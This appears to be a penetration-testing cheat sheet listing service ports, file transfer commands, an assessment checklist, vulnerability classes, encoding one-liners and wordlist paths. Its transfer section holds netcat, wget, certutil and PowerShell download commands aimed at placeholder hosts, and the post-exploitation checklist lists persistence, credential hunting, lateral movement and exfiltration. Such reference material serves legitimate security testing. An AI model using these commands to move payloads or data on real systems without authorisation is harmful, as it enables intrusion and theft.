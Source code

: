 # Security Resources & References

Quick reference guides and cheatsheets for penetration testing.

## Port Reference

| Port | Service | Notes |
|------|---------|-------|
| 21 | FTP | Check anonymous login |
| 22 | SSH | Version enumeration, key-based auth |
| 23 | Telnet | Plain text, usually vulnerable |
| 25 | SMTP | User enumeration possible |
| 53 | DNS | Zone transfers, subdomain enum |
| 80/443 | HTTP/HTTPS | Web application testing |
| 110/995 | POP3/POP3S | Email service |
| 139/445 | SMB | File shares, null sessions |
| 1433 | MSSQL | Default database port |
| 3306 | MySQL | Default database port |
| 3389 | RDP | Windows remote desktop |
| 5432 | PostgreSQL | Default database port |

## File Transfer Methods

### Linux to Linux
```bash
# Python HTTP server
python3 -m http.server 8000
wget http://[ip]:8000/file

# Netcat
nc -lvnp 4444 > file  # Receiver
nc [ip] 4444 < file   # Sender

# SCP
scp file user@[ip]:/path/
```

### Windows Transfer
```powershell
# PowerShell download
Invoke-WebRequest -Uri http://[ip]/file -OutFile file
iwr http://[ip]/file -o file

# Certutil
certutil -urlcache -f http://[ip]/file file

# SMB server (from Linux)
impacket-smbserver share . -smb2support
# From Windows: copy \\[ip]\share\file
```

## Methodology Checklist

### Initial Enumeration
- [ ] Full port scan
- [ ] Service version detection
- [ ] UDP scan (top 100)
- [ ] OS detection
- [ ] Script scanning on interesting ports

### Web Application
- [ ] Directory/file enumeration
- [ ] Technology stack identification
- [ ] Subdomain enumeration
- [ ] Parameter fuzzing
- [ ] Authentication testing
- [ ] Session management
- [ ] Input validation testing

### Post-Exploitation
- [ ] Establish persistence
- [ ] Enumerate local system
- [ ] Check for credentials
- [ ] Network mapping
- [ ] Lateral movement opportunities
- [ ] Data exfiltration paths

## Common Vulnerabilities

### Web
- SQL Injection
- Cross-Site Scripting (XSS)
- Cross-Site Request Forgery (CSRF)
- XML External Entity (XXE)
- Server-Side Request Forgery (SSRF)
- Insecure Deserialization
- File Upload vulnerabilities
- Directory Traversal
- Command Injection

### System
- Weak passwords
- Unpatched services
- Misconfigured services
- SUID/GUID binaries
- Kernel exploits
- Cron job abuse
- PATH hijacking
- Library hijacking

## Encoding/Decoding

```bash
# Base64
echo -n "text" | base64
echo -n "dGV4dA==" | base64 -d

# URL encoding
python3 -c "import urllib.parse; print(urllib.parse.quote('text'))"

# Hex
echo -n "text" | xxd -p
echo "74657874" | xxd -r -p
```

## Useful Wordlists

- `/usr/share/wordlists/rockyou.txt` - Passwords
- `/usr/share/seclists/Discovery/Web-Content/` - Web content
- `/usr/share/seclists/Usernames/` - Username lists
- `/usr/share/wordlists/dirb/` - Directory brute-forcing
- `/usr/share/seclists/Fuzzing/` - Fuzzing payloads